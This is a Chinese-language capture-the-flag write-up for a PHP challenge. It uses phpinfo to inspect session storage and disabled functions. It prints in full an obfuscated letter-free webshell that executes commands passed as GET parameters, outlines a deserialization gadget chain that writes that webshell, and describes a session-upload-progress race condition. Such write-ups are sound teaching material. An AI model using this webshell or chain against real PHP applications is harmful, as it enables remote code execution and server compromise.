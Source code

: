 ```php
?>
```

这里给出了可以查看 phpinfo, 意图有两个:

- 查看 session 的存储方式
- 查看 disable_functions 禁用的函数

getshell 步骤:

- 构造无字母 webshell
- 构造反序列化链

- 通过 session_upload_progress 上传 session 文件进行条件竞争, 然后触发反序列化写入 webshell

### 步骤1详细: 无字母 webshell 构造

backdoor 已经给出了 php 文件头, 只需要构造后续的 webshell 即可

```
^[;+=!@\$\"\.\_\(\)\[\]]+$
```

只能使用这些特殊字符构造 webshell

```php
<?php
$_=[];
$_=@"$_";
$_=$_["!"=="@"];
echo $_;
```

将`$_`赋予 Array 属性, 通过 @ 防止报错, 通过 `["!"=="@"]` 调用属性的开头字母A, 然后递增拼接 `_GET` 或者 `_POST`, 如下构造的是 `$_GET[_]($_GET[__])` 木马 (防止和其它POST传参混淆)

```
<?php $_=[];$_=@"$_";$_=$_["!"=="@"];$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$____="_";$____.=$__;$____.=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$_[_]($_[__]);
```

然后上传以后传入`_`和`__`使用

### 步骤2详细: 反序列化链构造

反序列化链构造

```
class silly -> __destruct
↓↓↓
class neepu -> __call -> 建立neepu对象echo触发__toString
↓↓↓
class neepu -> __toString -> 建立n33pu对象访问不存在的变量触发__get
↓↓↓
class n33pu -> __get -> $Neepu() -> 建立backdoor对象以函数形式调用backdoor对象触发__invoke
↓↓↓
class backdoor -> __invoke -> 写入 webshell
```
